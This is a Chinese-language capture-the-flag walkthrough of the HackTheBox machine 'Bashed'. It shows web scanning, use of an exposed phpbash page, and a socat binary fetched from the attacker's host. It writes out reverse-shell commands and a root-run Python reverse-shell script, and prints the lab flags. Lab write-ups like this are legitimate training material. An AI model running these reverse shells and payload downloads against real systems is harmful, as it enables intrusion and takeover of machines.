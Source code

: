 # Bashed

> victim: 10.10.10.68
> local: 10.10.14.19

仅有HTTP服务-80

## Web

可以看到是一个phpbash的东西，其它没讲啥了，扫描一下吧

```bash
gobuster dir -u http://10.10.10.68/ \
  -w /usr/share/seclists/Discovery/Web-Content/common.txt \
  -s '200,204,301,302,307,403,500' -e -x php > gobuster.txt
```

没扫描到特别有意思的东西

利用nikto

```bash
nikto -host=http://10.10.10.68/
```

找到敏感目录`/dev/`

成功进入phpbash

## 升级到socat shell

```bash
#victim
/bin/uname -a 
# 获取到目标机为 x86_64
```

```bash
#local
sudo proxychains4 wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /var/www/html/socat
sudo systemctl start apache2

socat file:`tty`,raw,echo=0 tcp-listen:4444
```

```bash
wget http://10.10.14.19/socat -O /tmp/socat
chmod 777 /tmp/socat
/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.19:4444
```

成功获取完整shell

得到user.txt

```
2c281f318555dbc1b856957c7147bfc1
```

## Privilage Escalation

尝试LinEnum.sh检查

```bash
./LinEnum.sh |grep '\[+\]'
```

发现

```
[+] We can sudo without supplying a password!
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

可以不加密码以scriptmanager执行任何操作

```bash
sudo -u scriptmanager ./LinEnum.sh > a.txt
```

```bash
cat a.txt -n |grep '\[+\]'
```

```
     9  [+] Thorough tests = Disabled
  1102  [+] Files with POSIX capabilities set:
```

```bash
sed -n '1102,1132p' a.txt # 查看1102~1132行
```

Linux Exploit Suggester无法提供合适的漏洞

### scriptmanager专用文件夹

`/scripts`

通过观察，脚本生成的文件是属于root的，而脚本是我们的，说明脚本我们可以自定义，且会以root执行

```python
import os
os.system("/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.19:4445")
```

```bash
echo "import os"> test.py 
echo "os.system(\"/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.19:4445\")" >> test.py 
```

得到root.txt

```
cc4f0afe3a1026d402ba10329674a8e2
```

